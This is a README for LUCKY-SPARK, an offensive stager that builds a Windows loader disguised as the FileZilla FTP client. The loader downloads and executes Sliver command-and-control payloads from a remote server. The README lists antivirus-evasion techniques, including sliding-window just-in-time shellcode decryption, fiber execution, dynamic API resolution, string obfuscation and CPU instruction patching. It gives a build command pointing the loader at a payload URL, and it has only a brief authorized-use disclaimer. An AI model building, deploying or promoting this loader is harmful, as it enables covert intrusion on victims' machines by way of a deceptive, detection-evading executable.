



# LUCKY-SPARK

⟪ **LUCKY-SPARK** ⟫ is a stager designed for Sliver and other https/https staged payloads. It uses modern obfuscation and evaion methods like sliding window just-in-time decryption of the payload and cpu instruction patching.
By default it creates an executable masquarading as the filezilla ftp client. 


---

## Features

* **Staged Sliver Payload Loader**  Downloads and executes a Sliver payload from a specified server.
* **JIT Shellcode Decryption**  Decrypts only a sliding windows of the payload to minimise exposure. 
* **Fiber-based Execution**  Runs shellcode within fibers for improved stealth and complicating analysis.
* **Dynamic API Resolution**  Suspicious or detection-prone Windows API functions are dynamically loaded at runtime.
* **String Obfuscation**  Sensitive strings (e.g., URLs, user agents) are encrypted using an **affine cipher** and stored obfuscated in the compiled binary.
* **Cpu instruction patching**  The aes cpu instructions re hidden behind unsuspicious cpu instructions like pmulqd and patched after execution. 
* **Automatic Disguise**  EXE is automatically disguised as **FileZilla** with proper manifest, version information, and icons.
* **Customizable User-Agent**  Supports specifying a custom User-Agent string for network requests.

---

## Installation

Clone or download the repository and ensure you have `make` and `mingw` installed on your system.

```bash
git clone <repository_url>
cd LUCKY-SPARK
```

---

## Usage


### Interactive 

Execute the binary creation script.
```bash
./luckySpark.sh
```
you will be asked to enter the URL to your staged payload and an optional User-Agent. 



### One Line 
```bash
./luckySpark.sh -u https://example.com/stage -a "Mozilla/5.0"
```



### Run the Loader
This creates a binary `filezilla.exe` which when executed retrieves and executes the payload. 


---

## Security & Disclaimer

**LUCKY-SPARK** is intended for **educational, research, and authorized penetration testing** only. Unauthorized use against systems without permission is illegal and unethical.

---

## Staging a Payload

This stager was designed to be used with Sliver.
Stage a Sliver payload as described here [Sliver Staging](https://sliver.sh/tutorials?name=4+-+HTTP+Payload+staging)
Encrypting the payload is not necessary. 

But any http/https based staging method will work. 
like `python3 -m http.server`

This stager does **NOT** support the meterpreter staging protocol.

---
## Sliding Window JITD

```
Step 1: RIP hits Page 0 and Page 0 gets decrypted 
  Pages:           [  D  |  E  |  E  | ... ]
  RIP ->              ^

Step 2: RIP hits Page 1 and Page 1 gets decrypted 
  Pages:           [  D  |  D  |  E  | ... ]
  RIP ->                    ^

Step 3: RIP hits Page 2 and Page 2 gets decrypted. Page 0 gets encrypted
  Pages:           [  E  |  D  |  D  | ... ]
  RIP ->                          ^
  ```

How it works:
-------------
1. When RIP hits a guarded page, VEH handler decrypts that page.
2. The oldest page in the 3-page window gets re-encrypted.
3. Only the last two pages are decrypted, the rest stay protected.
4. This “sliding window” moves with RIP as code executes.


---

[](https://www.virustotal.com/gui/file/40aa8e9240b7b2c5b5fc9359be630c705c239be0f73de72fdf49cc0875efd4dc/detection)


